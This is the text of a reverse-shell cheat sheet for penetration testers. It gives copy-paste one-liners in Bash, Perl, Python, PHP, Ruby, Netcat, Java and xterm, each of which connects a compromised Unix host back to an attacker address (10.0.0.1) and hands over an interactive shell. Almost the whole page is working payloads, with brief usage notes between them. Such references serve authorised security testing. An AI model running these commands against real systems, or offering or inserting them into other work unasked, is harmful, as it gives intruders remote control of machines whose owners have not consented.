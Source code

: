 http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

# Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
## Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell here.
## Python

This was tested under Linux / Python 2.7:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]
## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```
xhost +targetip
```
## Further Reading

Also check out Bernardo’s Reverse Shell One-Liners.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a reverse shell written in gawk over here.  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

Tags: bash, cheatsheet, netcat, pentest, perl, php, python, reverseshell, ruby, xterm

Posted in Shells
